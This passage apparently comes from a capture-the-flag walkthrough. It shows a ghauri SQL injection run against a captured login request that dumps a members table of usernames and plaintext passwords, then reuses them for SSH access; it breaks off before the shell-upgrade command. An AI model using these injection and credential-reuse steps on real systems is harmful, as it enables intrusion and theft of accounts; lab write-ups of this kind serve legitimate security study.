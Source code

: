 ```
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=b3573e93d5da0d933118775f01b0b11c
Connection: close

myusername=test&mypassword=test&Submit=Login
```

I will use a tool called `ghauri` because i found much more reliable than `sqlmap` in some cases: 

```bash
ghauri -r req -D members -T members --dump  

[07:55:17] [INFO] retrieved: 3 
[07:55:17] [INFO] resumed: id 
[07:55:17] [INFO] resumed: username 
[07:55:17] [INFO] resumed: password 
Database: members
Table: members
[3 columns]
+----------+
| id       |                                                                                                                                                          
| username |                                                                                                                                                          
| password |                                                                                                                                                          
+----------+                                                                                                                                                          
[07:55:17] [INFO] fetching entries of column(s) 'id,username,password' for table 'members' in database 'members'
[07:55:17] [INFO] fetching number of column(s) 'id,username,password' entries for table 'members' in database 'members'
[07:55:17] [INFO] retrieved: 2 
[07:55:17] [INFO] retrieved: 1 
[07:55:18] [INFO] retrieved: john 
[07:55:18] [INFO] retrieved: MyNameIsJohn 
[07:55:18] [INFO] retrieved: 2 
[07:55:19] [INFO] retrieved: robert 
[07:55:20] [INFO] retrieved: ADGAdsafdfwt4gadfga== 
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |                                                                                                                             
+----+----------+-----------------------+                                                                                                                             
| 1  | john     | MyNameIsJohn          |                                                                                                                             
| 2  | robert   | ADGAdsafdfwt4gadfga== |    
```
And indeed we got users and credentials that we can use them to get a user shell
## Shell a john
we login via `ssh` as john ,Then, we found that we are using a limited shell so we spawn a tty shell using this `echo` command to get a full interactive shell:
